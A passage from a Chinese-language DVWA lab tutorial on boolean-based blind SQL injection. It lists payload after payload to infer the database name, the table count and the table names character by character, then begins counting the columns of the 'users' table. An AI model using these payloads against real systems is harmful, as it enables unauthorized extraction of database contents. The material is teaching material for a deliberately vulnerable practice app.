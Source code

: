 输入 1’ and ascii(substr(databse(),1,1))>100 # ，显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。

…

重复上述步骤，就可以猜解出完整的数据库名（ dvwa ）了。

### 3.猜解数据库中的表名

首先猜解数据库中表的数量：

1’ and (select count (table_name) from information_schema.tables where table_schema=database())=1 #显示不存在 

1’ and (select count (table_name) from information_schema.tables where table_schema=database() )=2 #显示存在 

说明数据库中共有两个表。

接着挨个猜解表名：

1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 #显示不存在 

1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=2 #显示不存在 

…

1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #显示存在 

说明第一个表名长度为 9 。

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 # 显示存在

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122 # 显示存在

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<109 # 显示存在

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103 # 显示不存在

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103 # 显示不存在

说明第一个表的名字的第一个字符为小写字母g。

…

重复上述步骤，即可猜解出两个表名（guestbook、users）。

### 4.猜解表中的字段名

首先猜解表中字段的数量：

1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=1 # 显示不存在
